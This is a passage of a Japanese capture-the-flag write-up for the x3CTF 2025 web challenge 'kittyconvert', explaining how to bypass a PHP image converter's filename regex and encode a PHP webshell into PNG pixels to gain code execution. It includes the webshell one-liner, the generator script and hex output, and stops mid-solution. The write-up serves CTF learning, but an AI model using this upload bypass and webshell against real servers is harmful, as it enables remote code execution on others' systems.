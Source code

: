```yaml
---
title: "x3CTF 2025 - writeup"
date: "2025-01-27T00:00:00.000Z"
lang: JA
---
```


## 🩸 [Web] kittyconvert (204pts 25solves)

[ソースコード](https://github.com/x3ctf/challenges-2025/tree/main/web/kittyconvert/challenge-handout)

開始1時間19分でFirst bloodをいただきました👍

![](/assets/blog/x3c/image.png)

画像をICOファイルに変換してくれるサイト。実行結果は`/uploads`ディレクトリにアップロードされる。コードはPHPで動いているので、どうにかして`.php`ファイルをアップロードしてRCEを行うことが最終目的。


### 解法

目的の`.php`ファイルをアップロードするのには次の２つの障壁がある。

1. ファイル名が以下のコードにより、`.ico`ファイルに書き換わってしまう
  ```php
  $ico_file = "uploads/" . preg_replace("/^(.+)\\..+$/", "$1.ico", basename($_FILES["file"]["name"]));
  ```
  これは、拡張子を除いたファイル名と、拡張子が`.+`にマッチすることが前提となっている。したがって、ファイル名が`.php`の場合、正規表現にマッチせずに`.php`ファイルをアップロードできる。

2. ファイルは、64x64のICOファイルに変換される。ICOファイルは内部にビットマップ形式でデータを保持しているので、そのバイト列が[webshell](https://qiita.com/yukiy4n4g1/items/865ad4c35c2d7deb1c63)になるようにしたい。しかし、ビットマップ形式で送るとファイルサイズが大きすぎてしまう。
  ```php
  if ($_FILES["file"]["size"] > 8000) {
    echo "<p>Sorry, your file is too large you need to buy Nitro.</p>";
  } else {
    // snap
  }
  ```
  そこで、可逆圧縮されるPNGで送ることを考える。次のようなコードでPNGファイルを送ってみる。
  ```python
  webshell = '<?php system($_GET["c"]);?> '
  webshell = list(webshell.encode())
  pixels = [tuple(webshell[i:i+4]) for i in range(0,len(webshell),4)] + ([(0,0,0)] * (64 * 64))
  pixels = pixels[:64*64]

  img = Image.new('RGBA', (64, 64), color=(0, 0, 0))
  img.putdata(pixels)
  buffer = io.BytesIO()
  img.save(buffer, format="PNG")
  b = buffer.getvalue()
  buffer.close()
  ```
  実行結果をxxdで確認すると次のようになる。
  ```
  00004fe0: 00ff 0000 00ff 0000 00ff 0000 00ff 0000  ................
  00004ff0: 00ff 0000 00ff 703f 3c68 7320 7078 6574  ......p?<hs pxet
  00005000: 736c 5f24 2846 5b54 4522 5d22 6328 3e3f  sl_$(F[TE"]"c(>?
  00005010: 3b20 0000 00ff 0000 00ff 0000 00ff 0000  ; ..............
  ```

